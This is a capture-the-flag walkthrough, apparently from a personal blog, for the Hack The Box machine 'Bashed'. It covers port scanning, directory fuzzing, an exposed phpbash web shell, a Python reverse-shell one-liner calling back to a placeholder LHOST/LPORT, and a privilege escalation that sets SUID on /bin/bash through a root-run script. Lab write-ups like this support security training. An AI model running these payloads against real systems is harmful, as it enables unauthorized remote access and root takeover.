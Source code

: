 # Box: Bashed
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.38.185 -v -p- -T4```

```
Nmap scan report for 10.129.38.185
Host is up (0.14s latency).
Not shown: 65435 closed tcp ports (reset), 99 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=12/27%OT=80%CT=1%CU=39715%PV=Y%DS=2%DC=T%G=Y%TM=658B8D
OS:24%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=109%TI=Z%CI=I%TS=8)SEQ(SP=
OS:FF%GCD=1%ISR=109%TI=Z%CI=I%TS=8)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53
OS:CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=7120%W2=7120%
OS:W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC
OS:=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T
OS:=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=
OS:0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40
OS:%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.011 days (since Wed Dec 27 03:18:25 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   142.55 ms 10.10.14.1
2   140.40 ms 10.129.38.185

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 27 03:34:13 2023 -- 1 IP address (1 host up) scanned in 1127.11 seconds
```
From our scan we have one open port, port 80 which runs on http. So, our enumeration today will be focused on port 80.



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d090655b-9177-467d-90fb-4da5a3dd7916)

Lets fuzz for directories using ffuf

command:```ffuf -u "http://10.129.38.185/FUZZ" -w /usr/share/wordlists/dirb/common.txt  -e .zip,.sql,.php,.phtml,.bak,.backup```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/bashed]
└─$ ffuf -u "http://10.129.38.185/FUZZ" -w /usr/share/wordlists/dirb/common.txt  -e .zip,.sql,.php,.phtml,.bak,.backup

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.38.185/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 141ms]
    * FUZZ:

[Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 153ms]
    * FUZZ: config.php

[Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 159ms]
    * FUZZ: css

[Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 139ms]
    * FUZZ: dev

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 161ms]
    * FUZZ: fonts

[Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 150ms]
    * FUZZ: images

[Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 156ms]
    * FUZZ: index.html

[Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 146ms]
    * FUZZ: js

[Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 162ms]
    * FUZZ: php

[Status: 403, Size: 301, Words: 22, Lines: 12, Duration: 139ms]
    * FUZZ: server-status

[Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 145ms]
    * FUZZ: uploads

:: Progress: [32298/32298] :: Job [1/1] :: 272 req/sec :: Duration: [0:02:08] :: Errors: 0 ::
```

We have lots of directories here, the directory that interests me is the ```/dev``` directory.

Navigating to that directory, you should see this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4c5d1793-7711-46b3-b41c-bbe8b074cf7a)

We have 2 files here, clicking on ```phpbash.php``` should get you this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ed1c803e-17df-45b0-b9bd-288b7177ae35)

Lets try to run basic linux commands like ```id``` and ```whoami```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7a4febc4-5d86-458d-9b19-990ca4d062cc)

nice nice, we can exploit this



# Exploitation

We can get a reverse shell back to our machine from this actually

payload:```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'```

Ensure you provide your```LHOST``` and ```LPORT```

Also, ensure to set up your netcat listener 

Executing the payload and checking my netcat listener I spawned a shell

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/92c89b45-3041-4cd0-885a-94c4a4b2e585)

To stabilize the shell

```
python -c “import pty;pty.spawn(‘/bin/bash’)”
ctrl + z (to background)
stty raw -echo && fg
export TERM=xterm
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/aa5febcd-fc02-47bc-8557-aa51987b871b)

Lets go ahead and escalate our privileges




# Privilege Escalation

Running the ```sudo -l``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8c977156-e16a-4603-86b4-42c9772bb8fb)

We can see that user ```www-data``` can run any command as user ```scriptmanager``` without a password. 

So, to drop into a shell as user ```scriptmanager```, we can run this command ```sudo -u scriptmanager /bin/bash```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/885a3488-be43-4547-a70b-419901f1dc7b)

nice nice, lets further escalate our privileges

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/42aa5cce-c5e5-4883-ad3b-ba8757e31b7f)

Checking the contents of the ```test.py``` file, you should get this

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
This file is actually being ran by root every couple minutes. We'll replace the content of this script with the python script below

```python
import os

os.system('chmod +s /bin/bash')
```
What this script will do is change the permissions of the ```/bin/bash``` executable using the ```os.system``` function. So, by simply running ```bash -p``` we should be able to spawn a shell as the root user

Now, replace the content of the test.py with the above python code

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ccdbd18b-f503-4f37-be3c-02f0b92eca38)

After one minute, run the command ```ls -l /bin/bash```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/24e55f02-3e3c-4786-b834-ae99e2942a05)

Lets execute this using the command ```bash -p```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e2e22771-1bc6-4417-9dbe-15417791b09c)

Cool, we spawned a root shell😎

This was a very easy box though😅


That will be all for today
<br><br>
[Back To Home](../../index.md)





























